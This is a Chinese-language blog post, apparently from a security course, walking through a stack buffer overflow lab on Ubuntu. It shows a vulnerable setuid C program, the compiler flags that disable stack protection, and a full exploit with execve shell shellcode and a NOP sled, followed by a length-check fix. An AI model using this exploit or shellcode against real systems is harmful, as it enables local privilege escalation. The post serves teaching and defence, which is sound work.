 title: Stackoverflow
date: 2015-03-05 19:28:28
tags: IS
categories: IS
---
说一下很久以前就做过最近有遇到了的缓冲区溢出问题吧。
<!--more-->
当然最开始要放上来的还是有漏洞的程序。为了节省篇幅，仅仅把主函数粘上来，也就是我们有漏洞的地方。程序如下：

```
#include <stdio.h>
#include <string.h>
#include <fcntl.h>
#include <sys/stat.h>
#include "common.h"

int main(int argc, char *argv[]) {
  uid_t userid = getuid();
  int printing = 1;
  int fd;
  char search_buffer[100];

  if (argc > 1) {
    strcpy(search_buffer, argv[1]);
  } else {
    search_buffer[0] = '\0'; // Null byte - empty string
  }

  fd = open(NOTE_FILE, O_RDONLY);
  if (fd == -1) {
    fatal("Problem opening file in main()");
  }
  while(printing) {
    printing = print_notes(fd, userid, search_buffer);
  }
  printf("--------[ END OF DATA ]--------\n");
  close(fd);

  return 0;
}
```
##程序攻击##

学过信息安全的大约都能看出来，中间strcpy函数复制的时候没有检查输入参数的边界。因此只要输入的稍微长点的参数，就会产生溢出。接下来我们就在ubuntu 下做一下这个实验吧。
先说一下基本原理吧。在每个函数的特定位置，存放着该函数的返回地址。这个返回地址可能会被有溢出漏洞的数组，函数覆盖。如果这个返回地址被用新的地址覆盖了，而且新的地址指向我们另外一段程序，那样的话我们就可以通过这个程序获得更高的权限了。
第一步，编译程序。截图如下：
![com.png](/image/Stackoverflow/2.png)
编译这一步必须做对了。不然就不能继续下去。下面我解释一下这几个有关参数：
```
gcc -o searchnote -z execstack -fno-stack-protector -g searchnote.c
```
这句代码是这样的。在现代编译器中，gcc会对很多安全问题进行处理。比方说禁止数据堆栈区的程序运行，缓冲区溢出处理等等。一旦gcc处理了这些问题，我们的缓冲区溢出攻击也就没办法继续下去了。
这里 -z execstack 就是用来告诉编译器栈上的程序是可以运行的。 -fno-stack-protector 是用来禁用堆栈溢出保护的。这样下去之后，就可以运行下一步了。
**PS:gcc4.6以上好像这两句代码不好使了，堆栈保护一直关不掉。最后我只好使用gdb继续进行试验了**
第二步，设计我们的攻击程序。程序代码如下：

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char shellcode[]=
"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68"
"\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89"
"\xe1\xcd\x80"
;
#define OFFSET 500

unsigned long getESP(){
    __asm__("movl %ESP,%EAX");
}
// This code builds the malicious input required to trigger our buffer overflow,and then
// invokes the searchnote binary with it. Once finished, this code should yield a root shell.
int main(int argc, char *argv[]) {
char *command, *buffer;
unsigned long addr;
addr = getESP() + OFFSET;
command = calloc(2000, sizeof(char));
fprintf(stderr, "Using Offset: 0x%x\nShellcode Size:%d\n",addr,sizeof(shellcode));
strcpy(command, "./searchnote \'"); // start command buffer
buffer = command + strlen(command); // set buffer at the end
// fill buffer with enough copies of an address within the NOP sled to overwrite the return address
memset(buffer,0x90,1024);
// append suitably long NOP sled to give a large enough target for the previous part to work reliably

int i;
for(i = 0;i < 200;i += 4){
buffer[i] = addr & 0x000000ff;
buffer[i + 1] = (addr & 0x0000ff00) >> 8; 
buffer[i + 2] = (addr & 0x00ff0000) >> 16;
buffer[i + 3] = (addr & 0xff000000) >> 24;
}

memcpy(buffer + 900,shellcode,sizeof(shellcode));

// append our shellcode to buffer
strcat(command, "\'");
system(command); // run exploit
free(command);
}

```
关键部分在这里
![code1.png](/image/Stackoverflow/5.png)
下面我解释一下这个代码。
```
#define OFFSET 500

unsigned long getESP(){
    __asm__("movl %ESP,%EAX");
}
unsigned long addr;
addr = getESP() + OFFSET;
```
这部分代码，我们用来得到当前堆栈的起始位置。OFFSET是我们猜测的偏移量。addr就是我们的shellcode的大概位置了。我们只要把shellcode附着在buffer的后边，然后让这个addr指向shellcode大概的前边就可以。这里我们用到一个东西叫做NOP sled。
NOP sled就是当程序指针指导NOP的时候，它会继续往下寻找可执行程序。一直“滑”到可执行的程序位置。这样的话我们把shellcode的前边用0x90填充，在一大堆0x90(NOP)的包围下，addr只要指向shellcode前边的某个NOP即可，程序指针就会滑下去，滑到我们的shellcode然后执行。

```
// fill buffer with enough copies of an address within the NOP sled to overwrite the return address
memset(buffer,0x90,1024);
```
这一段代码就是用0x90来填充buffer，长度为1024.

```
int i;
for(i = 0;i < 200;i += 4){
buffer[i] = addr & 0x000000ff;
buffer[i + 1] = (addr & 0x0000ff00) >> 8; 
buffer[i + 2] = (addr & 0x00ff0000) >> 16;
buffer[i + 3] = (addr & 0xff000000) >> 24;
}

memcpy(buffer + 900,shellcode,sizeof(shellcode));

```
这一部分是这样，因为我们不确定存着函数返回地址的地址，我们就暴力的从buffer的开始，不断的用addr来填充所有的部分。一直填充到200个为止。由于返回地址的对齐，所以中间一定能覆盖到返回地址，指向addr。然后返回到这个addr之后一直沿着0x90滑下去。滑到shellcode就成功了。

下边我们看一下具体攻击的情况。首先如下图：


![setuid.png](/image/Stackoverflow/8.png)
chmod就是另外一个技术，所谓setuid，也就是让别的用户运行这个程序享有某些权限。这里我们这么写之后，用另外一个新建用户"eve"执行程序，也就有了和程序创建用户一样的效果。
我们用gdb对searchnote进行一下调试，观察一下内存的变化过程。


![stack1.png](/image/Stackoverflow/3.png)
这里我们看到，在运行strcpy之前，我们的内存数据是正常的。这个时候main的返回地址应该是在0xbffff250左右。具体哪个已经不重要了。因为在缓冲区覆盖完成之后，可能的位置已经全变成指向shellcode的位置了。在上图的下方，大片的地址已经被我们得到的addr地址，也就是指向我们shellcode的地址覆盖。这个地址是0xbffff45c。其实可以看出来我们猜测的偏移量的大了。大约在0xbffff2f0就可以写入了。但是由于我们中间全用0x90填充，返回指针一直会滑到我们的shellcode的位置。


![stack2.png](/image/Stackoverflow/4.png)
这张图片揭示了我们shellcode附近的情况。0xbffff45c也就是程序返回执行的位置，在前边隐去了。程序指针会顺着NOP sled 一直滑到shellcode复婚，也就是0xbffff5a0的位置。开始执行shellcode。


![result.png](/image/Stackoverflow/1.png)
运行完shellcode就是上边这个结果了。
**PS:预期结果应该是获取root权限。但是由于程序创建者没有这个权限，同时ubuntu系统有bash的保护机制，导致没能获取root权限。这里我们仅仅获取了程序创建者的权限，但是这已经证明了我们成功的进行了缓冲区溢出攻击**

##程序漏洞修补##
程序修补比较简单，只要检查输入长度然后加以判断就好。关键代码如下：
```
struct stack_frame {
  struct stack_frame* next;
  void* ret;
};

void ** get_addr_of_ret_addr() {
  /* x86/gcc-specific: this tells gcc that the fp
     variable should be set to the %ebp register
     which keeps the frame pointer */
  register struct stack_frame* fp asm("ebp");
  // the rest just walks through the linked list
  struct stack_frame* frame = fp; // This is the stack frame of get_ebp
  // Move down the stack to the stack frame which called get_ebp
  frame = frame->next;
  // We want to return the *address* of the retur address 
  return &frame->ret;
}
```
上边这些代码的作用是获得当前函数的返回地址的存储地址。

![code_fix.png](/image/Stackoverflow/6.png)

```
  char search_buffer[100];
  void ** addr;
  addr = get_addr_of_ret_addr();
  int gap = (char *)addr - search_buffer;
  printf("%d\n",strlen(argv[1])); 
  if(gap <= strlen(argv[1])){
      printf("The args is too long\n");
      return 0;
  }	
  if (argc > 1) {
    strcpy(search_buffer, argv[1]);
  } else {
    search_buffer[0] = '\0'; // Null byte - empty string
  }
```
上边这些代码首先使用get_addr_of_ret_addr()获取当前程序返回地址的存放地址，然后用gap来存放返回地址和search_buffer的空间大小。如果输入的长度大于该长度，就输出提示，同时程序停止。

修补后的实验结果如下：
![result.png](/image/Stackoverflow/9.png)
修补程序成功。